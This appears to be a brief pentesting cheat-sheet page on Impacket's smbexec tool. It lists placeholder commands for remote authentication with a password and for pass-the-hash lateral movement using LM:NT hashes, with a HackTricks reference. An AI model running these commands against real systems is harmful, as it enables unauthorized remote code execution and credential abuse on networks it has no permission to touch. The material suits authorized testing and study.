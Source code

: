 # Impacket

- Authenticate via impacket script with smbexec

`$ smbexec <username>:<password>@<IP> [-codecs <codec>]`

- **Pass the Hash**

```
$ smbexec <username>@<IP> -hashes <LM>:<NT>

$ smbexec <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ smbexec <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>
```

---
## References

- [Hacktricks: SmbExec/ScExec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)